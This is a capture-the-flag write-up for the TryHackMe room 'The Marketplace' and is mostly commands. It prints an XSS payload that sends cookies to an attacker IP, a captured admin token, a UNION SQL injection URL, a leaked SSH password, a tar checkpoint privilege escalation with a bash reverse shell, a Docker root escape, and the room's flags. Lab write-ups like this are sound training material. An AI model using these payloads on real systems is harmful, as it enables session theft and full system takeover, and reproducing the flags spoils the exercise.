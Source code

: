 # The Marketplace

> Oct 23, 2020 | John Hammond

-----------------------------

Looks like you can create an account.


You can create a new listing, and try XSS

Both work.

XSS to get a cookie:

```
<img src="#" onerror="document.location='http://10.2.2.132:8000/?c='+document.cookie">
```

Got the admin cookie:

```
10.10.218.165 - - [23/Oct/2020 18:25:09] "GET /?c=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MDM0OTE5MDd9.XYS-w8vlcxgyaf9DfqRvGTgD_7JRrQTrxwIXj6EhtN4 HTTP/1.1" 200 -
```

Now logging in with the admin account we can find the flag.

# What is flag 1?

```
THM{c37a63895910e478f28669b048c348d5}
```

Now in the admin panel you can perform basic SQLi

```
http://10.10.218.165/admin?user=0%20UNION%20SELECT%201,%202,%203,4%20--
```

# What is flag 2? (User.txt)


Performing SQLi you can get the password hashes and messages. In the messages, you can see `jake` has a password set in SSH.

```
@b_ENXkGYUCAv3zJ
```

SSH in and get user.

```
THM{c3648ee7af1369676e3e4b15da6dc0b4}
```

Now for tar privesc:

```
echo "bash -c 'bash -i >& /dev/tcp/10.2.2.132/9999 0>&1'" > shell.sh

echo "" > "--checkpoint=1"
echo "" > "--checkpoint-action=exec=sh shell.sh"
sudo -u michael /opt/backups/backup.sh
```


# What is flag 3? (Root.txt)

Docker privesc

```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh

chmod +s /bin/bash
```


```
THM{d4f76179c80c0dcf46e0f8e43c9abd62}
```